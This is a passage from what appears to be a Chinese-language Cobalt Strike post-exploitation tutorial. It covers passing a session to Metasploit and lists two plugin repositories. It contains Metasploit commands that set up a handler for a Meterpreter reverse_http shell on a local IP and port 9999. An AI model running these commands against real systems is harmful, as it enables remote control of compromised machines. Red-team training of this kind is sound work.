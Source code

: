   MSF

  ```bash
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_http
  set LHOST 192.168.111.128
  set lport 9999
  run
  ```

  CS右键会话派生（spawn）选择刚刚创建好的Foreign监听器

  ![image-20231014202406347](../images/image-20231014202406347.png)

  如下成功派生

  ![image-20231014202434316](../images/image-20231014202434316.png)

  









# 插件增强

[GitHub - lintstar/LSTAR: LSTAR - CobaltStrike 综合后渗透插件](https://github.com/lintstar/LSTAR) [GitHub - pandasec888/taowu-cobalt-strike](https://github.com/pandasec888/taowu-cobalt-strike)
